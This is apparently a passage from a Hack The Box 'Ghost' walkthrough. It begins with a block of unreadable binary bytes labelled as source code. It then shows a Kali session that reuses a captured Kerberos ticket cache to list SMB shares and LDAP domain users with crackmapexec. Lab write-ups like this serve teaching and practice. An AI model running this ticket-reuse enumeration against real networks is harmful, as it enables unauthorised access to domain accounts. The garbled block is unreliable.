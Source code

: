 ```console
                                                                                                       ��yA룕I�|����gs�'l#��\�����z���.�&�}��ɮ���ˢ4'���i�������BQe��q�3��0#���e�ȵ���
                                                                                                                                                                                    @V��_�J����=��Ԗg^���s[     �vj��y\ޥ&�i�+�G��gJ�o�t��bM6���5��=�����\��rG`�U�����P�+F�B��QJ��0�c��̕����3~��k������(���-����-ͯS�zT$�Q�)!<^諸�%��|�^-w����Ѱ���B�bZ��u�{��=
```

Testing ticket:

> [!Tip]
>
> Install `klist` and `kinit` commands by installing the `krb5-user` package

```console
root@kali:~# export KRB5CCNAME=/tmp/krb5cc_50

root@kali:~# klist
Ticket cache: FILE:/tmp/krb5cc_50
Default principal: florence.ramirez@GHOST.HTB

Valid starting     Expires            Service principal
08/22/24 07:56:01  08/22/24 17:56:01  krbtgt/GHOST.HTB@GHOST.HTB
        renew until 08/23/24 07:56:01

root@kali:~# crackmapexec smb ghost.htb --use-kcache --shares
SMB         ghost.htb       445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ghost.htb) (signing:True) (SMBv1:False)
SMB         ghost.htb       445    DC01             [+] ghost.htb\ from ccache
SMB         ghost.htb       445    DC01             [+] Enumerated shares
SMB         ghost.htb       445    DC01             Share           Permissions     Remark
SMB         ghost.htb       445    DC01             -----           -----------     ------
SMB         ghost.htb       445    DC01             ADMIN$                          Remote Admin
SMB         ghost.htb       445    DC01             C$                              Default share
SMB         ghost.htb       445    DC01             IPC$            READ            Remote IPC
SMB         ghost.htb       445    DC01             NETLOGON        READ            Logon server share
SMB         ghost.htb       445    DC01             SYSVOL          READ            Logon server share
SMB         ghost.htb       445    DC01             Users           READ

root@kali:~# crackmapexec ldap DC01.ghost.htb --use-kcache --users
SMB         ghost.htb       445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ghost.htb) (signing:True) (SMBv1:False)
LDAP        ghost.htb       389    DC01             [+] ghost.htb\florence.ramirez from ccache
LDAP        ghost.htb       389    DC01             [*] Total of records returned 18
LDAP        ghost.htb       389    DC01             Administrator                  Built-in account for administering the computer/domain
LDAP        ghost.htb       389    DC01             Guest                          Built-in account for guest access to the computer/domain
LDAP        ghost.htb       389    DC01             krbtgt                         Key Distribution Center Service Account
LDAP        ghost.htb       389    DC01             kathryn.holland
LDAP        ghost.htb       389    DC01             cassandra.shelton
LDAP        ghost.htb       389    DC01             robert.steeves
LDAP        ghost.htb       389    DC01             florence.ramirez
LDAP        ghost.htb       389    DC01             justin.bradley
LDAP        ghost.htb       389    DC01             arthur.boyd
LDAP        ghost.htb       389    DC01             beth.clark
LDAP        ghost.htb       389    DC01             charles.gray
LDAP        ghost.htb       389    DC01             jason.taylor
LDAP        ghost.htb       389    DC01             intranet_principal
LDAP        ghost.htb       389    DC01             gitea_temp_principal

```